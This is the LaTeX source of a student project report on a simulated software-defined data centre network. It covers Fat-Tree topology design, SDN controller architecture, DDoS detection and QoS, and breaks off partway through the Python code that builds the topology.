\documentclass[12pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[margin=1in]{geometry}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref}
\usepackage{fancyhdr}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{booktabs}
\usepackage{tabularx}
\usepackage{float}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{tikz}
\usepackage{pgfplots}
\pgfplotsset{compat=1.18}
\usetikzlibrary{shapes,arrows,positioning,fit,backgrounds,calc,decorations.pathreplacing,matrix}

% Colors - GitHub Dark Theme
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\definecolor{primaryblue}{RGB}{88,166,255}
\definecolor{successgreen}{RGB}{63,185,80}
\definecolor{dangerred}{RGB}{248,81,73}
\definecolor{warningyellow}{RGB}{210,153,34}
\definecolor{purpleaccent}{RGB}{163,113,247}

% Code listing style
\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,
    breaklines=true,
    captionpos=b,
    keepspaces=true,
    numbers=left,
    numbersep=5pt,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    tabsize=2,
    frame=single
}
\lstset{style=mystyle}

% Header/Footer
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{CPEG 460 - Computer Networks}
\fancyhead[R]{SecureNet DC - Project Report}
\fancyfoot[C]{\thepage}
\setlength{\headheight}{14pt}

% Title formatting
\titleformat{\section}{\Large\bfseries\color{primaryblue}}{\thesection}{1em}{}
\titleformat{\subsection}{\large\bfseries}{\thesubsection}{1em}{}
\titleformat{\subsubsection}{\normalsize\bfseries}{\thesubsubsection}{1em}{}

\begin{document}

% Title Page
\begin{titlepage}
    \centering
    \vspace*{1cm}

    
\begin{tikzpicture}
        \node[draw=primaryblue, line width=3pt, rounded corners=10pt, inner sep=20pt] {
            \begin{minipage}{0.8\textwidth}
                \centering
                {\Huge\bfseries\color{primaryblue} SecureNet DC}\\[0.5cm]
                {\Large Building and Defending a Software-Defined\\Data Center Network}
            \end{minipage}
        };
    \end{tikzpicture}

    \vspace{1.5cm}

    {\LARGE\textbf{Comprehensive Project Report}\\[0.5cm]}
    {\large Technical Documentation \& Implementation Guide}

    \vspace{2cm}

    \begin{tabular}{ll}
        \textbf{Course:} & CPEG 460 - Computer Networks \\
        \textbf{Semester:} & Fall 2025 \\
        \textbf{Instructor:} & Dr. Mohammad Shaqfeh \\
        \textbf{Project Type:} & Bonus Project \\
    \end{tabular}

    \vspace{2cm}

    
\begin{tikzpicture}
        \node[draw=codegray, rounded corners=5pt, inner sep=15pt, fill=backcolour] {
            \begin{minipage}{0.7\textwidth}
                \centering
                \textbf{Project Highlights}\\[0.3cm]
                \begin{tabular}{rl}
                    \color{successgreen}$\bullet$ & Fat-Tree Data Center Topology \\
                    \color{successgreen}$\bullet$ & SDN/OpenFlow Controller \\
                    \color{successgreen}$\bullet$ & Real-Time DDoS Detection \\
                    \color{successgreen}$\bullet$ & QoS Traffic Engineering \\
                    \color{successgreen}$\bullet$ & Intelligent Load Balancing \\
                    \color{successgreen}$\bullet$ & Interactive Web Dashboard \\
                    \color{successgreen}$\bullet$ & Attack Simulation Toolkit \\
                \end{tabular}
            \end{minipage}
        };
    \end{tikzpicture}

    \vfill

    {\small Hamad Bin Khalifa University\\College of Science and Engineering}

\end{titlepage}

% Table of Contents
\tableofcontents
\newpage

% =============================================================================
% SECTION 1: EXECUTIVE SUMMARY
% =============================================================================
\section{Executive Summary}

\subsection{Project Overview}

SecureNet DC is an advanced Software-Defined Networking (SDN) project that simulates an enterprise-grade data center network with comprehensive security and traffic management capabilities. Built using Mininet and the Ryu SDN framework, this project demonstrates mastery of modern networking concepts including:

\begin{itemize}
    \item \textbf{Network Architecture:} Implementation of a k=4 Fat-Tree topology with 20 switches and 16 hosts
    \item \textbf{SDN Programming:} Custom Ryu controller with OpenFlow 1.3 protocol
    \item \textbf{Security:} Real-time DDoS attack detection and automatic mitigation
    \item \textbf{Traffic Engineering:} Four-tier QoS with HTB queuing and DSCP marking
    \item \textbf{Load Balancing:} VIP-based request distribution with multiple algorithms
    \item \textbf{Visualization:} Real-time web dashboard with D3.js topology visualization
\end{itemize}

\subsection{Project Scope}

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    scale=0.85, transform shape,
    box/.style={rectangle, draw=primaryblue, fill=primaryblue!10, rounded corners,
                minimum width=2.6cm, minimum height=0.85cm, text centered, font=\footnotesize},
    arrow/.style={->, thick, >=stealth}
]
    % Main components - Row 1 (wider spacing)
    \node[box] (topo) at (0,0) {Topology\\(Fat-Tree k=4)};
    \node[box] (ctrl) at (5.5,0) {SDN Controller\\(Ryu Framework)};
    \node[box] (sec) at (11,0) {Security\\(DDoS Defense)};

    % Row 2 (more vertical space)
    \node[box] (qos) at (0,-3.5) {QoS Manager\\(Traffic Shaping)};
    \node[box] (lb) at (5.5,-3.5) {Load Balancer\\(VIP Distribution)};
    \node[box] (dash) at (11,-3.5) {Dashboard\\(D3.js + Flask)};

    % Row 3 (more vertical space)
    \node[box] (attack) at (2.75,-7) {Attack Toolkit\\(5 Attack Types)};
    \node[box] (perf) at (8.25,-7) {Performance\\Analysis};

    % Connections
    \draw[arrow] (topo) -- (ctrl);
    \draw[arrow] (ctrl) -- (sec);
    \draw[arrow] (qos) -- (lb);
    \draw[arrow] (lb) -- (dash);
    \draw[arrow] (ctrl) -- (lb);
    \draw[arrow] (attack) -- (sec);
    \draw[arrow] (perf) -- (dash);

\end{tikzpicture}
\caption{SecureNet DC Component Overview}
\end{figure}

\subsection{Key Achievements}

\begin{table}[H]
\centering
\caption{Project Metrics}
\begin{tabular}{lll}
\toprule
\textbf{Metric} & \textbf{Value} & \textbf{Description} \\
\midrule
Total Python Files & 25+ & Core implementation modules \\
Lines of Code & ~8,000 & Including all components \\
Controller Modules & 6 & DDoS, Firewall, QoS, LB, Stats, Main \\
Attack Types & 5 & SYN, ICMP, UDP, Slowloris, DNS \\
Topology Types & 5 & Fat-Tree, Tree, Linear, Spine-Leaf, DC \\
QoS Classes & 4 & Critical, Real-time, Interactive, Bulk \\
REST API Endpoints & 8 & Full controller REST interface \\
Development Stages & 9 & Complete iterative development \\
Detection Time & <3 sec & DDoS attack detection latency \\
\bottomrule
\end{tabular}
\end{table}

\newpage

% =============================================================================
% SECTION 2: SYSTEM ARCHITECTURE
% =============================================================================
\section{System Architecture}

\subsection{High-Level Architecture}

The SecureNet DC system follows a layered architecture with clear separation of concerns:

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    scale=0.85, transform shape,
    layer/.style={rectangle, draw=#1, fill=#1!10, minimum width=12cm, minimum height=1.2cm, font=\bfseries},
    component/.style={rectangle, draw=codegray, fill=white, rounded corners, minimum width=2.2cm, minimum height=0.6cm, font=\scriptsize},
    arrow/.style={<->, thick, >=stealth}
]

% Layers with more vertical spacing
\node[layer=dangerred] (app) at (0,9) {};
\node[layer=warningyellow] (control) at (0,6) {};
\node[layer=successgreen] (infra) at (0,3) {};
\node[layer=primaryblue] (data) at (0,0) {};

% Layer labels on left (outside the boxes)
\node[font=\small\bfseries, dangerred, anchor=east] at (-6.5,9) {Application};
\node[font=\small\bfseries, warningyellow, anchor=east] at (-6.5,6) {Control};
\node[font=\small\bfseries, successgreen, anchor=east] at (-6.5,3) {Infrastructure};
\node[font=\small\bfseries, primaryblue, anchor=east] at (-6.5,0) {Data};

% Components in Application Layer (4 items spread across 12cm)
\node[component] at (-4,9) {Web Dashboard};
\node[component] at (-1.3,9) {REST API};
\node[component] at (1.3,9) {CLI Tools};
\node[component] at (4,9) {Monitoring};

% Components in Control Layer
\node[component] at (-4,6) {DDoS Detector};
\node[component] at (-1.3,6) {QoS Manager};
\node[component] at (1.3,6) {Load Balancer};
\node[component] at (4,6) {Firewall};

% Components in Infrastructure Layer (3 items)
\node[component] at (-3.5,3) {Ryu Controller};
\node[component] at (0,3) {OpenFlow 1.3};
\node[component] at (3.5,3) {OVS Switches};

% Components in Data Layer (3 items)
\node[component] at (-3.5,0) {Core Switches};
\node[component] at (0,0) {Agg Switches};
\node[component] at (3.5,0) {Edge Switches};

% Protocol labels on right (between layers)
\node[font=\scriptsize, right] at (6.3,7.5) {HTTP/WS};
\node[font=\scriptsize, right] at (6.3,4.5) {OpenFlow};
\node[font=\scriptsize, right] at (6.3,1.5) {Ethernet};

\end{tikzpicture}
\caption{Four-Layer System Architecture}
\end{figure}

\subsection{Component Interaction Diagram}

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    scale=0.8, transform shape,
    process/.style={rectangle, draw=primaryblue, fill=primaryblue!20, rounded corners,
                    minimum width=1.8cm, minimum height=0.7cm, text centered, font=\footnotesize},
    data/.style={rectangle, draw=dangerred, fill=dangerred!20, rounded corners,
                 minimum width=1.4cm, minimum height=0.7cm, font=\footnotesize},
    decision/.style={diamond, draw=warningyellow, fill=warningyellow!20,
                     minimum width=1cm, aspect=2, text centered, font=\footnotesize},
    arrow/.style={->, thick, >=stealth}
]

% Row 1 - horizontal flow (more space)
\node[process] (packet) at (0,0) {Packet In};
\node[decision] (firewall) at (4,0) {Firewall?};
\node[decision] (ddos) at (8.5,0) {DDoS?};
\node[data] (block) at (13,0) {DROP};

% Row 2
\node[process] (qos) at (4,-4) {QoS Mark};
\node[decision] (lb) at (8.5,-4) {VIP?};
\node[process] (nat) at (13,-4) {NAT};

% Row 3
\node[process] (forward) at (8.5,-7.5) {L2 Forward};

% Arrows with labels
\draw[arrow] (packet) -- (firewall);
\draw[arrow] (firewall) -- node[above, font=\scriptsize] {pass} (ddos);
\draw[arrow] (ddos) -- node[above, font=\scriptsize] {attack} (block);
\draw[arrow] (ddos) -- node[right, font=\scriptsize] {ok} (lb);
% Firewall drop arrow goes UP then over to DROP (avoiding intersection)
\draw[arrow] (firewall.north) -- ++(0,1.2) -| node[near start, above, font=\scriptsize] {drop} (block.north);
\draw[arrow] (lb) -- node[above, font=\scriptsize] {no} (qos);
\draw[arrow] (lb) -- node[above, font=\scriptsize] {yes} (nat);
\draw[arrow] (qos.south) -- ++(0,-1.2) -| (forward);
\draw[arrow] (nat.south) -- ++(0,-1.2) -| (forward);

\end{tikzpicture}
\caption{Packet Processing Decision Flow}
\end{figure}

\subsection{Directory Structure}

\begin{lstlisting}[language=bash, caption=Project Directory Structure]
securenet_dc/
|-- topology/                 # Network Topology
|   |-- __init__.py
|   |-- network_config.py     # Configuration constants
|   |-- fat_tree_datacenter.py # Fat-Tree implementation
|   |-- datacenter_topo.py    # Mininet custom topology
|
|-- controller/               # SDN Controller
|   |-- __init__.py
|   |-- securenet_controller.py # Main Ryu controller
|   |-- ddos_detector.py      # DDoS detection engine
|   |-- qos_manager.py        # QoS traffic manager
|   |-- load_balancer.py      # Load balancer module
|   |-- firewall.py           # ACL-based firewall
|   |-- stats_collector.py    # Statistics collector
|
|-- attacks/                  # Attack Simulation
|   |-- __init__.py
|   |-- syn_flood.py          # TCP SYN flood
|   |-- icmp_flood.py         # ICMP ping flood
|   |-- udp_flood.py          # UDP flood
|   |-- slowloris.py          # Slowloris HTTP attack
|   |-- dns_amplification.py  # DNS amplification
|   |-- attack_toolkit.py     # Unified interface
|
|-- dashboard/                # Web Dashboard
|   |-- app.py                # Flask application
|   |-- templates/
|   |   |-- index.html        # Main dashboard
|   |-- static/
|       |-- css/style.css     # Styling
|       |-- js/dashboard.js   # D3.js visualization
|
|-- simulator/                # Windows Native Attempt (experimental)
|   |-- windows_sim.py        # Pure Python switch simulator
|   |-- windows_controller.py # Pure Python controller
|
|-- analysis/                 # Performance Analysis
|   |-- __init__.py
|   |-- performance_analyzer.py
|   |-- graph_generator.py
|
|-- scripts/                  # Runner Scripts
|   |-- setup_wsl.sh          # WSL environment setup
|   |-- start_all.sh          # Start all services
|   |-- run_attacks.sh        # Attack command reference
|   |-- run_project.py        # Full system launcher
|   |-- run_experiment.py     # Lab experiment mode
|   |-- demo.py               # Feature demonstration
|
|-- docs/                     # Documentation
    |-- lab_document.tex      # Lab experiment guide
    |-- solution_report.tex   # Solution documentation
    |-- project_report.tex    # Comprehensive report
\end{lstlisting}

\newpage

% =============================================================================
% SECTION 3: FAT-TREE TOPOLOGY
% =============================================================================
\section{Fat-Tree Data Center Topology}

\subsection{Topology Design Rationale}

The Fat-Tree topology was chosen for its superior characteristics in data center environments:

\begin{itemize}
    \item \textbf{Full Bisection Bandwidth:} All hosts can communicate at full link speed simultaneously
    \item \textbf{Redundant Paths:} Multiple paths between any source-destination pair for fault tolerance
    \item \textbf{Scalability:} Regular structure allows easy capacity planning
    \item \textbf{Cost Efficiency:} Uses commodity switches rather than expensive chassis switches
\end{itemize}

\subsection{k=4 Fat-Tree Structure}

For a Fat-Tree with $k=4$:

\begin{align}
\text{Core Switches} &= (k/2)^2 = 4 \\
\text{Pods} &= k = 4 \\
\text{Aggregation Switches per Pod} &= k/2 = 2 \\
\text{Edge Switches per Pod} &= k/2 = 2 \\
\text{Hosts per Edge Switch} &= k/2 = 2 \\
\text{Total Switches} &= 5k^2/4 = 20 \\
\text{Total Hosts} &= k^3/4 = 16
\end{align}

\subsection{Topology Visualization}

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    scale=0.55, transform shape,
    core/.style={circle, draw=dangerred, fill=dangerred!30, minimum size=0.85cm, font=\scriptsize\bfseries},
    agg/.style={circle, draw=primaryblue, fill=primaryblue!30, minimum size=0.75cm, font=\scriptsize\bfseries},
    edge/.style={circle, draw=successgreen, fill=successgreen!30, minimum size=0.75cm, font=\scriptsize\bfseries},
    host/.style={rectangle, draw=codegray, fill=backcolour, minimum size=0.45cm, font=\tiny},
    pod/.style={draw=codegray, dashed, rounded corners, inner sep=6pt}
]

% Core layer - spread much wider
\node[core] (c1) at (5, 11) {c1};
\node[core] (c2) at (9, 11) {c2};
\node[core] (c3) at (13, 11) {c3};
\node[core] (c4) at (17, 11) {c4};

% Pod 0
\begin{scope}
    \node[agg] (a1) at (1, 7) {a1};
    \node[agg] (a2) at (4, 7) {a2};
    \node[edge] (e1) at (1, 4.5) {e1};
    \node[edge] (e2) at (4, 4.5) {e2};
    \node[host] (h1) at (0, 2) {h1};
    \node[host] (h2) at (2, 2) {h2};
    \node[host] (h3) at (3, 2) {h3};
    \node[host] (h4) at (5, 2) {h4};

    \draw (a1) -- (e1); \draw (a1) -- (e2);
    \draw (a2) -- (e1); \draw (a2) -- (e2);
    \draw (e1) -- (h1); \draw (e1) -- (h2);
    \draw (e2) -- (h3); \draw (e2) -- (h4);

    \node[pod, fit=(a1)(a2)(e1)(e2)(h1)(h4), label=below:{\scriptsize Pod 0}] {};
\end{scope}

% Pod 1
\begin{scope}
    \node[agg] (a3) at (7, 7) {a3};
    \node[agg] (a4) at (10, 7) {a4};
    \node[edge] (e3) at (7, 4.5) {e3};
    \node[edge] (e4) at (10, 4.5) {e4};
    \node[host] (h5) at (6, 2) {h5};
    \node[host] (h6) at (8, 2) {h6};
    \node[host] (h7) at (9, 2) {h7};
    \node[host] (h8) at (11, 2) {h8};

    \draw (a3) -- (e3); \draw (a3) -- (e4);
    \draw (a4) -- (e3); \draw (a4) -- (e4);
    \draw (e3) -- (h5); \draw (e3) -- (h6);
    \draw (e4) -- (h7); \draw (e4) -- (h8);

    \node[pod, fit=(a3)(a4)(e3)(e4)(h5)(h8), label=below:{\scriptsize Pod 1}] {};
\end{scope}

% Pod 2
\begin{scope}
    \node[agg] (a5) at (13, 7) {a5};
    \node[agg] (a6) at (16, 7) {a6};
    \node[edge] (e5) at (13, 4.5) {e5};
    \node[edge] (e6) at (16, 4.5) {e6};
    \node[host] (h9) at (12, 2) {h9};
    \node[host] (h10) at (14, 2) {h10};
    \node[host] (h11) at (15, 2) {h11};
    \node[host] (h12) at (17, 2) {h12};

    \draw (a5) -- (e5); \draw (a5) -- (e6);
    \draw (a6) -- (e5); \draw (a6) -- (e6);
    \draw (e5) -- (h9); \draw (e5) -- (h10);
    \draw (e6) -- (h11); \draw (e6) -- (h12);

    \node[pod, fit=(a5)(a6)(e5)(e6)(h9)(h12), label=below:{\scriptsize Pod 2}] {};
\end{scope}

% Pod 3
\begin{scope}
    \node[agg] (a7) at (19, 7) {a7};
    \node[agg] (a8) at (22, 7) {a8};
    \node[edge] (e7) at (19, 4.5) {e7};
    \node[edge] (e8) at (22, 4.5) {e8};
    \node[host] (h13) at (18, 2) {h13};
    \node[host] (h14) at (20, 2) {h14};
    \node[host] (h15) at (21, 2) {h15};
    \node[host] (h16) at (23, 2) {h16};

    \draw (a7) -- (e7); \draw (a7) -- (e8);
    \draw (a8) -- (e7); \draw (a8) -- (e8);
    \draw (e7) -- (h13); \draw (e7) -- (h14);
    \draw (e8) -- (h15); \draw (e8) -- (h16);

    \node[pod, fit=(a7)(a8)(e7)(e8)(h13)(h16), label=below:{\scriptsize Pod 3}] {};
\end{scope}

% Core to Aggregation connections
\draw[dangerred] (c1) -- (a1); \draw[dangerred] (c1) -- (a3);
\draw[dangerred] (c1) -- (a5); \draw[dangerred] (c1) -- (a7);
\draw[dangerred] (c2) -- (a1); \draw[dangerred] (c2) -- (a3);
\draw[dangerred] (c2) -- (a5); \draw[dangerred] (c2) -- (a7);
\draw[primaryblue] (c3) -- (a2); \draw[primaryblue] (c3) -- (a4);
\draw[primaryblue] (c3) -- (a6); \draw[primaryblue] (c3) -- (a8);
\draw[primaryblue] (c4) -- (a2); \draw[primaryblue] (c4) -- (a4);
\draw[primaryblue] (c4) -- (a6); \draw[primaryblue] (c4) -- (a8);

% Legend (positioned below, well separated)
\node[core, label=right:{\tiny Core}] at (4, -0.5) {};
\node[agg, label=right:{\tiny Agg}] at (9, -0.5) {};
\node[edge, label=right:{\tiny Edge}] at (14, -0.5) {};
\node[host, label=right:{\tiny Host}] at (19, -0.5) {};

\end{tikzpicture}
\caption{Complete k=4 Fat-Tree Topology}
\end{figure}

\subsection{Host Role Assignment}

\begin{table}[H]
\centering
\caption{Host Configuration and Roles}
\begin{tabular}{llll}
\toprule
\textbf{Host} & \textbf{IP Address} & \textbf{Role} & \textbf{Purpose} \\
\midrule
h1 & 10.0.1.1 & Web Server & Load balancer backend \\
h2 & 10.0.1.2 & Web Server & Load balancer backend \\
h3 & 10.0.1.3 & Web Server & Load balancer backend \\
h4 & 10.0.1.4 & Web Server & Load balancer backend \\
h5 & 10.0.2.1 & Database Server & Data tier \\
h6 & 10.0.2.2 & Database Server & Data tier \\
h7 & 10.0.3.1 & Client & Traffic generator \\
h8 & 10.0.3.2 & Client & Traffic generator \\
h9 & 10.0.3.3 & Client & Traffic generator \\
h10 & 10.0.3.4 & Client & Traffic generator \\
h11 & 10.0.3.5 & Client & Traffic generator \\
h12 & 10.0.3.6 & Client & Traffic generator \\
h13 & 10.0.4.1 & Attacker & Security testing \\
h14 & 10.0.4.2 & IDS Monitor & Security monitoring \\
h15 & 10.0.5.1 & Streaming Server & QoS testing \\
h16 & 10.0.5.2 & Streaming Server & QoS testing \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Implementation Code}

\begin{lstlisting}[language=Python, caption=Fat-Tree Topology Creation (fat\_tree\_datacenter.py)]
def create_fat_tree(k=4):
    """Create k-ary Fat-Tree topology."""
    net = Mininet(controller=RemoteController,
                  switch=OVSKernelSwitch,
                  link=TCLink)

    # Create core switches: (k/2)^2
    core_switches = []
    for i in range((k // 2) ** 2):
        sw = net.addSwitch(f'c{i+1}',
                          protocols='OpenFlow13')
        core_switches.append(sw)

    # Create pods
    for pod in range(k):
        # Aggregation switches
        agg_switches = []
        for agg in range(k // 2):
            sw = net.addSwitch(
                f'a{pod * (k//2) + agg + 1}',
                protocols='OpenFlow13')
            agg_switches.append(sw)

            # Connect to core switches
            for core_idx in range(k // 2):
                core_sw = core_switches[agg * (k//2) + core_idx]
                net.addLink(sw, core_sw, bw=100)

        # Edge switches and hosts
        for edge in range(k // 2):
            edge_sw = net.addSwitch(
                f'e{pod * (k//2) + edge + 1}',
                protocols='OpenFlow13')

            # Connect to aggregation switches
            for agg_sw in agg_switches:
                net.addLink(edge_sw, agg_sw, bw=100)

            # Add hosts
